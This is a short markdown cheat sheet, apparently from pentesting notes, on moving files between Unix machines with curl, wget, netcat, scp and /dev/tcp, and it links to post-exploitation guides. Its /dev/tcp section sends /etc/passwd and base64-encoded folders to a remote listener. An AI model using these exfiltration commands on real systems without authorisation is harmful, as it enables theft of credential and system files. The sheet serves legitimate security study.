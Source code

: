 # Transferring Files

## Serve files from a Unix machine

### HTTP

* [HTTP static server one-liners][3]

### FTP

```bash
twistd -n ftp -r .
```

## Upload files from a Unix machine

* [File upload with Unix binaries (GTFOBins)][1]

## Download files on a Unix machine

* [File download with Unix binaries (GTFOBins)][2]

### HTTP

```bash
curl http://10.10.10.10/file.zip -o /tmp/file.zip
```

```bash
wget http://10.10.10.10/file.zip
```

### FTP

```bash
wget ftp://10.10.10.10/file.zip
```

## Transfer files between Unix machines

### Netcat

#### Receiver's machine

```bash
nc -nvlp 444 > file.txt
```

#### Sender's machine

```bash
nc <receiver_host> <receiver_port> -w 3 < file.txt
```

### scp

* The `scp` command relies on `ssh` for data transfer, so it requires an ssh key or password to authenticate on the remote systems.

#### Local file to the remote host

```bash
scp file.txt <remote_username>@10.10.10.10:/remote/path/directory
```

#### Remote file to the local host

```bash
scp <remote_username>@10.10.10.10:/remote/path/file.txt /local/path/directory
```

### /dev/tcp

* This is a system file that allows you to interact directly with the `tcp` protocol.

#### Transferring a single file

##### Receiver's machine

```bash
nc -nvlp 444 > passwd
```

##### Sender's machine

```bash
cat /etc/passwd > /dev/tcp/<receiver_host>/<receiver_port>
```

#### Transferring an entire folder

##### Receiver's machine

```bash
nc -nvlp 444 > compressed.tar.b64
```

##### Sender's machine

```bash
tar -cvf compressed.tar folder/
base64 compressed.tar > /dev/tcp/<receiver_host>/<receiver_port>
```

##### Receiver's machine

```bash
base64 -d compressed.tar.b64 > compressed.tar
tar -xvf compressed.tar
```

#### Further reading

* [/dev/tcp as a weapon][4]
* [Transfer files (Post explotation) – CheatSheet][5]

[1]: https://gtfobins.github.io/#+file%20upload
[2]: https://gtfobins.github.io/#+file%20download
[3]: https://gist.github.com/willurd/5720255
[4]: https://securityreliks.wordpress.com/2010/08/20/devtcp-as-a-weapon/
[5]: https://ironhackers.es/en/cheatsheet/transferir-archivos-post-explotacion-cheatsheet/
